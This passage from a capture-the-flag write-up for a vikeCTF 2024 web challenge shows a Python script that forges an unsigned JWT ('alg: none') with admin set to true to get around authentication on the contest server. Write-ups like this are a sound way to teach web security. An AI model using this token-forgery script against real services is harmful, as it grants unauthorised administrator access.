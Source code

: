 I first used <https://token.dev> to change algorithm to `none`, admin -> true and finally change the cookie to become admin. 

![jarl-2](/assets/images/vikectf/2024/jarl-2.png)

But this didnt work and I got kicked out of session.

Bruteforce approach also didn't return anything.

Since the only valid approach was algorithm none I decided to automate process with python to check if time was the issue. 

```py
import requests
import string
import random
import jwt
import re

random_string = lambda length: ''.join(random.choice(string.ascii_letters) for _ in range(length)) 

URL = 'http://35.94.129.106:3004/'

resp = requests.post(URL+'join', data={'username': random_string(5), 'password': random_string(5)}, allow_redirects=False)
jwt_token = re.search(r'=(.*?);', resp.headers['Set-Cookie']).group(1)
print(jwt_token)

jwt_token = jwt.decode(jwt_token, options={'verify_signature': False})
jwt_token['admin'] = True
print(jwt_token)

jwt_token = jwt.encode(jwt_token, key='', algorithm=None)
print(jwt_token)

resp = requests.get(URL, cookies=dict(AUTHORIZATION=jwt_token))
flag = re.findall('vikeCTF\{.*?\}', resp.text)
print(flag)
```
